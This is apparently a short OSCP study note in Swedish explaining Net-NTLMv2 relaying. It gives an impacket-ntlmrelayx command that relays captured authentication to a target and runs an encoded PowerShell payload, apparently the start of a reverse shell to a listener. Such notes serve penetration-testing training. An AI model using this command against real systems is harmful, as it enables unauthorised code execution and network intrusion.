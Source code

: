 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/h-password-attacks/8-net-ntl-mv2-relaying/"}
---
```


- I stället för att styra en autentisiering till en egen uppsatt SMB-server, dirigeras den till en annan maskin, och om användaren har tillgång dit kommer den göra som vi säger när den connectar.
- Görs med 'ntlmrelayx'

-------------

### Net-NTLMv2 Relaying:
1. Sätt upp Impacket-server på Kali:
```bash
sudo impacket-ntlmrelayx --no-http-server -smb2support -t <target-ip> -c "powershell -enc JABjAGwAaQBlAG4AdA..."
```
2. Sätt upp lyssnare.
3. Dirigera användare
4. Win!